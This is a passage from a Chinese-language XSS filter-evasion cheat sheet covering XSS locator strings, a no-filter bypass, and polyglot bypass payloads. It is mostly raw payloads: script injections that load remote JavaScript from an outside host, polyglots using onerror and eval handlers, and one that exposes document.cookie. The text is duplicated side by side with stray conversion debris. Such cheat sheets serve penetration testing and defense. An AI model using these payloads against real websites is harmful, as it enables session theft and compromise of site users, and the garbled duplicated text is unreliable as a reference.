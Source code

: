 标签，然后观察页面输出是否明显改变了就可以判断是否存在漏洞：


> ‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;	json
>	‘;alert(String.fromCharCode(88,83,83))//’;alert(String.fromCharCode(88,83,83))//”;
> alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–	
>	alert(String.fromCharCode(88,83,83))//”;alert(String.fromCharCode(88,83,83))//–
> \></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>	
></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>





### 2.2.  XSS定位器（短）	### 2.2.  XSS定位器（短）


如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞	如果你没有足够的空间并且知道页面上没有存在漏洞的JavaScript，这个字符串是一个不错的简洁XSS注入检查。注入后查看页面源代码并且寻找是否存在**<XSS** 或**&lt;XSS**字样来确认是否存在漏洞


> ”;!–”<XSS>=&{()}	json
”;!–”<XSS>=&{()}





### 2.3.  无过滤绕过	### 2.3.  无过滤绕过


这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：	这是一个常规的XSS注入代码，虽然通常它会被防御，但是建议首先去测试一下。（引号在任何现代浏览器中都不需要，所以这里省略了它）：


> <SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>
<SCRIPT SRC=<http://xss.rocks/xss.js>></SCRIPT>





### 2.4.  利用多语言进行过滤绕过	### 2.4.  利用多语言进行过滤绕过


> ‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|\><plaintext/onmouseover=prompt(1)>	json
>	‘”>><marquee><img src=x onerror=confirm(1)></marquee>”></plaintext\></|><plaintext/onmouseover=prompt(1)>
> <script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>	
>	<script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>’–>”></script>
> <script>alert(document.cookie)</script>”>	
>	<script>alert(document.cookie)</script>”>
> <img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>	
>	<img/id=”confirm&lpar;1)”/alt=”/”src=”/”onerror=eval(id)>’”>
> <img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>	
<img src=”<http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg>“>
